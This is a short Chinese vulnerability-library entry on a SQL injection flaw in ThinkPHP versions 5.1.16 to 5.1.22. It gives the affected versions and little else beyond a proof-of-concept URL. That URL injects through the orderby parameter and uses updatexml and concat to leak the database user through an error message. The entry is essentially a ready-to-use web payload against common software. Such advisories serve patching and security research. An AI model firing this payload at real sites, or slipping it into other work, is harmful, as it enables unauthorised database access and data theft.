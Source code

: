 ```yaml
---
title: 'Thinkphp 5.1.(16-22) sql注入漏洞'
date: Wed, 07 Oct 2020 06:02:29 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


### 漏洞影响

5.1.16 <= ThinkPHP <= 5.1.22

### 漏洞POC

```
http://********/index/index/index?orderby[id`|updatexml(1,concat(0x7,user(),0x7e),1)%23]=1 
```
